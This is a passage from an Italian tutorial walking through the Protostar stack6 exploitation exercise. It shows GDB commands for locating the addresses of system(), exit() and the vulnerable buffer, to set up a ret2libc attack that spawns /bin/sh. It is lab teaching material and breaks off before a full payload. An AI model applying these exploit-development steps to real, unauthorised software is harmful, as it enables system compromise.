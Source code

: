 Ora usiamo GDB (GNU Debugger) per trovare gli indirizzi esatti di cui abbiamo bisogno. Gli indirizzi sono unici per ogni esecuzione, quindi **bisogna trovare i propri**.

### Passo 1: Preparare l'Ambiente
Avvia GDB in modo pulito per simulare un ambiente di esecuzione reale:
```bash
gdb /opt/protostar/bin/stack6
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) start
```

### Passo 2: Trovare l'Indirizzo di `system()` e `exit()`
Questi sono gli indirizzi delle funzioni che vogliamo chiamare. `exit()` ci servirà per terminare il programma in modo pulito dopo aver ottenuto la shell.
```gdb
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60b0 <__libc_exit>
```

### Passo 3: Trovare l'Indirizzo del Buffer (Il Passo Cruciale)
La funzione `system()` ha bisogno di un argomento: un puntatore alla stringa del comando da eseguire (es. `"/bin/sh"`). La strategia più semplice è scrivere questa stringa proprio all'inizio del nostro input, dentro il `buffer`. Ma per farlo, dobbiamo conoscere l'indirizzo esatto del `buffer`.

Per trovare l'indirizzo del buffer:

1.  **Disassembla `getpath` per ottenere una mappa:**
    ```gdb
    (gdb) disas getpath
    ```
    Scorri l'output e cerca l'istruzione che prepara la chiamata a `gets`. si trova una sequenza simile a questa:
    ```assembly
    ...
    0x080484a4 <getpath+32>:	lea    -0x4c(%ebp),%eax
    0x080484a7 <getpath+35>:	mov    %eax,(%esp)
    0x080484aa <getpath+38>:	call   0x8048380 <gets@plt>
    ...
    ```
    L'istruzione `lea -0x4c(%ebp), %eax` (0x4c = 76) è la chiave. **L**oad **E**ffective **A**ddress (LEA) calcola un indirizzo (in questo caso, l'indirizzo del buffer a `EBP - 76`) e lo carica nel registro `EAX`. **Non legge il contenuto, carica l'indirizzo stesso.**

2.  **Imposta un breakpoint *dopo* l'istruzione `lea`:**
    Dobbiamo fermare il programma subito dopo che ha messo l'indirizzo del buffer in `EAX`. Quindi, mettiamo il breakpoint sull'istruzione successiva:
    ```gdb
    (gdb) b *0x080484a7
    ```
